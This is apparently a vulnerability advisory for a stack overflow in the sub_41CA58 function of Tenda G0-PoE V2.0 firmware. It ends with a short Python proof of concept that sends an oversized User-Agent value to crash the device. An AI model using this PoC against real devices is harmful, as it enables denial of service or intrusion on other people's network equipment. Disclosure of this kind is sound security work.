

# Tenda G0-PoE V2.0 sub_41CA58
### Overview
vendor: Tenda

product: G0-PoE V2.0

version: V16.01.11.6(3657)

type: Stack Overflow
### Vulnerability Description
Tenda G0-PoE V2.0 V16.01.11.6(3657) were discovered to contain a stack overflow in the sub_41CA58 function.
### Vulnerability details
In function sub_41CA58 line 19, it reads in a user-provided parameter `User-Agent`, and the variable `v5` is passed to the `memcpy` function without any length check, which may overflow the stack-based buffer `v6`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.



### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/'
payload = {
    "User-Agent": 'a' * 2000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
